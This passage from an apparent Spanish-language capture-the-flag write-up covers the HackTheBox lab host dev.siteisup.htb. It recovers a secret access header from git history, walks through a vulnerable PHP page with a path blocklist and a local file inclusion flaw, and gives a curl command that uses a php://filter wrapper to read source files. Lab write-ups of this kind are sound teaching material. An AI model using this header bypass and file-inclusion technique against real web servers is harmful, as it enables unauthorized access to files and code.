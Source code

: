 Si hacemos un git-log encontramos esta branch...
```console
└─$ git log --oneline 
010dcc3 (HEAD -> main, origin/main, origin/HEAD) Delete index.php
57af03b Create index.php
354fe06 Delete .htpasswd
8812785 New technique in header to protect our dev vhost.
bc4ba79 Update .htaccess

└─$ git diff 57af03b 354fe06  # Eliminado htpasswd -> vacio
└─$ git diff bc4ba79 8812785  # htacess actualizado
diff --git a/.htaccess b/.htaccess
 SetEnvIfNoCase Special-Dev "only4dev" Required-Header
 Order Deny,Allow
 Deny from All
 Allow from env=Required-Header
```

Esto lo que quiere decir esque /dev tiene que tener la cabecera "Special-Dev: only4dev" para que te de acceso.  
Una vez puesta esta cabecera con la extension "simply modify headers" ya nos aparece una web similar a la anterior.  
![updown2](https://user-images.githubusercontent.com/96772264/215056095-f26f1060-3c35-4c24-8f3c-64878b760a12.PNG)
![updown3](https://user-images.githubusercontent.com/96772264/215056155-4b24aab1-e820-4ef2-9395-e1d1697d5465.PNG)

------------------------------------------------
# Part 3: LFI -> Page?admin

El codigo del repo que nos hemos bajado y que concierne a esta parte:
```php
<b>This is only for developers</b>
<a href="?page=admin">Admin Panel</a>
<?php
    define("DIRECTACCESS",false);	
    $page=$_GET['page'];			// El contenido de la maquina que le pidamos por get a page
    if($page && !preg_match("/bin|usr|home|var|etc/i",$page)){ 	// Mientras que no incluya estos patrones
        include($_GET['page'] . ".php");		// Le concatenará la extensión.php y nos lo mostrará
 }else{ 
	include("checker.php");};
	// Si no ponemos ?page=admin nos carga checker.php
?>
```
Por tanto si la url es: http://dev.siteisup.htb/?page=admin -> (mensaje simple "This is only for developers")
Intentamos un LFI ya sabemos por el codigo de arriba que:
- No podemos pedir nada que tenga -> /bin, usr, home, var, etc, i   
- A lo que pidamos le pondra la extension php  
- Si pedimos un php habra que poner el wrapper de codificacion en base64 porque si no lo interpreta.  
- 
```console
└─$ curl -s -H "Special-Dev: only4dev" http://dev.siteisup.htb/?page=php://filter/convert.base64-encode/resource=checker | tail -n 1
PD9waHAKaWYoRElSRUNUQUNDRVNTKXsKCWRpZSgiQWNjZXNzIERlbmllZCIpOwp9Cj8+CjwhRE9DVFlQR...
```
El tema esque esos archivos php ya los tenemos gracias al repo asi que no es muy util por ahora.
